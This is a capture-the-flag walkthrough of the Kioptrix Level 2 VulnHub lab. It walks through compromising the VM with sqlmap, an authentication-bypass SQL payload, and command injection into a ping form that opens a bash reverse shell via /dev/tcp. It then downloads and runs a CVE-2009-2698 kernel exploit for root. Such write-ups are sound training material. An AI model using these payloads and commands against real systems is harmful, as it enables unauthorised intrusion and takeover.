---
categories:
- Security
- VulnHub
date: 2023-06-19 21:45:00 +0530
description: Learn the basic tools and techniques used in vulnerability assessment
  and exploitation in a gamified manner
img_path: /assets/
published: true
tags:
- security
- vulnhub
- ctf
- linux
title: 'VulnHub - Kioptrix: Level 2 (1.1) (#2)'
---


Cover Image by [vector_corp](https://www.freepik.com/free-vector/abstract-low-poly-triangular-background_26129667.htm) on Freepik

## Description

This Kioptrix VM Image is an easy challenge. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games is to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways than one to complete the challenges.

[Kioptrix: Level 1.1 (#2) \~ VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Information Gathering

### Identifying Target

Once the Kioptrix VM is set up identify its IP address. Since the attack machine (Kali) is on the same network as the target, by scanning the subnet the target machine can be found.



With the `ip` command, get the subnet details along with the IP address of the attack machine. Then scan the network using `netdiscover` to discover other devices.

```bash
# Find Subnet and Default Gateway
ip r

# Find IP Address
ip a l eth0
```



```bash
# Scan Subnet
sudo netdiscover -P -r 10.0.2.0/24
```


Since there is no other device on the network the `.23` address has to be the Kioptrix VM.

> [!NOTE]  
> The `.1` and `.2` IP addresses belong to the virtual router of the network. The `.2` address can be used to interact with the host machine. The `.3` address is the DHCP server of the network.

### Port Scanning

Next, perform a port scan to enumerate the services that are running on the target machine.

```bash
sudo rustscan -a 10.0.2.23 --ulimit 5000 -- -sS -A -T4 -oN rustscan.txt
```


The scan result shows 7 ports are open. Analyze each service to see if any vulnerabilities are present.

[Rust scan Output · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl2/rustscan.txt)

Port 22 has SSH running. It is using `OpenSSH 3.9p1`.

Port 80 (HTTP) and 443 (HTTPS) are used to host a website. The web server used is `Apache 2.0.52`. Additionally, we find that the target is running CentOS.

Port 3306 is used by MySQL. The database is most likely used by the website hosted on the device.

`CUPS 1.1` is running on port 631. It is a service that is used to communicate with printers.

Port 111 and 846 are used for RPC.

## Reconnaissance & Exploitation

### OpenSSH, CUPS and MySQL

SSH is generally not vulnerable to attacks. And the vulnerabilities that do exist require user authentication. After searching on Google and `searchsploit` as suspected there seem to be no exploits available for the version of SSH present on the target.

Some exploits exist for CUPS 1.1 but most of them are for DoS attacks. The RCE exploits I tried were not working.

Databases are exploited because of web server and application misconfigurations. Direct login would only be possible with login credentials. I tried to log in as `root` user but it did not work as anonymous login is disabled.

### Apache


On opening the website a Remote System Administration Login form is shown. I performed a Nikto scan to look for server vulnerabilities.

[Nikto Output · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl2/nikto.txt)

The scan did not return anything useful. Next, I decided to enumeration the application to look for hidden directories.

```bash
feroxbuster -u http://10.0.2.23/ -x php,html -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -d 2 -f -C 404 --no-state -o feroxbuster.txt
```



[Feroxbuster Output · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl2/feroxbuster.txt)

Once again I did not find anything. Since we have a login form I decided to check if it is vulnerable to SQL injection.


I used the browser's Network Tab to find the variables that are used to represent the values entered in the form. The username is denoted by the variable `uname` and the password is denoted using `psw`. Next, I fired up `sqlmap` to test the input fields for SQL vulnerabilities.

```bash
sqlmap -u http://10.0.2.23/index.php --dbms=mysql --data="uname=admin&psw=password" --level 5 --risk 3 -a --output-dir=sqlmap
```




Both the input fields were found to be vulnerable to Blind SQL attacks.



Additional information like the version of MySQL, the technologies used by the website and the name of the database used by the application was also exposed.


The usernames and password hashes of the users of the DBMS were also discovered. The hash for both users is the same. This implies that they are using the same password.



By performing a wordlist-based attack on the hashes the password was discovered to be `hiroshima`.

[Sqlmap Output · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl2/sqlmap/10.0.2.23/log)

I tried using the username and password to connect to the target using SSH but I was not able to log in. I even tried using the credentials to log in to the database, while the credentials are valid it seems remote login is not allowed so my login attempts failed.

By this point, while I had discovered some details about the target system, I had still not managed to establish a connection with the target. Back on the login page, I decided to utilize some of the tests used to test if a login form is vulnerable to SQL injection.

[MySQL Injection.md · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)

```sql
' OR 1 -- -
```




On entering `127.0.0.1` as input a new page was loaded with the result of the `ping` command.


Next, I tried to append another command to the end of the IP address to check if the input was being sanitized and it turns out the input fields were not being sanitized.

```bash
127.0.0.1;cat index.php
```



The input field allows to run any command on the target. We can use this input field to set up a reverse shell. 

[Online - Reverse Shell Generator](https://www.revshells.com/)

Using Netcat setup a Listener and pass a reverse shell to the input field.

```bash
# Netcat Listener
nc -nvlp 9000

127.0.0.1;/bin/bash -i >& /dev/tcp/10.0.2.15/9000 0>&1
```




This granted me access to the system. Next need to gain `root` access. 

### Gaining Root Access

I used the `find` command to look for files having the SUID bit set but got no results.

```bash
# Find files with SUID set and owned by root user
find / -type f -user root -perm -4000 -exec ls -l {} + 2> /dev/null
```


Since there did not seem to be any file that could be exploited I decided to turn to kernel exploits.

```bash
# Display Kernel Details
uname -a
```



I searched online if any exploits are present that target Linux kernel v2.6.9 and found multiple results.



[GitHub - CVE-2009-2698 compiled for CentOS 4.8](https://github.com/xiaoxiaoleo/CVE-2009-2698)

```bash
# Downloading Exploit
git clone https://github.com/xiaoxiaoleo/CVE-2009-2698.git
cd CVE-2009-2698
```

The exploit in the repository is already compiled so we can use it directly. After cloning the repository the exploit needs to be copied over onto the target system.

```bash
# Python Webserver
python -m http.server 9001
```


On the target system in the current directory, we do not have write permission.

```bash
ls -lah

cd /tmp
ls -lah
```



I used the `/tmp` directory to download the exploit and execute it.

```bash
# Downloading Exploit
wget http://10.0.2.15:9001/exp

# Running Exploit
./exp
chmod 755 exp
set -m
./exp

# Checking Permission
whoami
id
```


That's it, using SQL injection and a kernel exploit the target system was compromised. By checking the `/home` directory we see that there are two accounts set up, `john` and `harold`. There does not appear to be anything else that's interesting on the system.